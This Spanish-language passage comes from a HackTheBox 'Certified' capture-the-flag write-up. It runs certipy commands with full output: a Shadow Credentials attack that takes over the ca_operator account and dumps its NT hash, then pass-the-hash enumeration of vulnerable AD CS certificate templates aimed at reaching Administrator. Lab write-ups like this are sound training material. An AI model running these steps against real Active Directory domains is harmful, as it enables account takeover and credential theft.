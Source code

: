 Haremos un ataque de `Shadow Credentials` hacia la cuenta `ca_operator` abusando del privilegio que tenemos con `management_svc`. Usaremos la herramienta `certipy` que automatiza el ataque con la opción `shadow auto`

~~~ bash
certipy shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '77b2573f-82d2-ac07-c641-bce30235d58b'
[*] Adding Key Credential with device ID '77b2573f-82d2-ac07-c641-bce30235d58b' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID '77b2573f-82d2-ac07-c641-bce30235d58b' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
~~~


## Abusing AD CS (Active Directory Certificate Services)

El servicio de certificados en Active Directory autentica a usuarios dentro de un dominio o bosque. En esta fase de la resolución debemos abusar de certificados para convertirnos en `Administrator` emitiendo un certificado privilegiado. Comenzaremos buscaremos plantillas vulnerables haciendo PassTheHash con el usuario `ca_operator`

~~~ bash
certipy find -u ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -vulnerable

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20250316014428_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250316014428_Certipy.txt'
[*] Saved JSON output to '20250316014428_Certipy.json'
~~~
